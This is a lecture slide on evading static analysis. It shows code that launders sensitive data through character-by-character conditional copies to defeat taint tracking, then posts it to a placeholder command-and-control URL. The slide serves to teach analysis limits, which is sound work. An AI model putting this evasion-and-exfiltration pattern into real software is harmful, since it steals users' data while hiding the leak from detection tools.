

# Evading Static Analysis
Exploiting the Static Analysis FP/FN tradeoff
Arrays, files, etc.

String data = getSensitiveData();
String data2 = "";
for (int i=0; i<data.length(); i++) {
    if (data.charAt(i) == 'a')
        data2 += 'a';
    if (data.charAt(i) == 'b')
        data2 += 'b';
	...
}
PostRequest("http://www.remote.cnc/data.php", data2);